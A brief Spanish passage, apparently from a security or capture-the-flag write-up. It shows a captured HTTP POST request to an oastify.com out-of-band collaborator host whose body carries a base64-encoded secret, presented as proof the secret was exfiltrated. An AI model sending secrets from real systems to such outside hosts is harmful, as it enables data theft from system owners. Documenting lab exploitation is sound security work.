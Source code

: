 Y logramos obtener el secreto luego de consumir el servicio previo y luego el del button:

```bash
POST / HTTP/1.1
Host: 79ehevoergt9416xsqvym443suymmfa4.oastify.com
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 44
Content-Type: application/x-www-form-urlencoded

RXl2cDZwVkgyNUZFWnJWaFNXVEg5dEkyVmVwUzFoUWs=
```
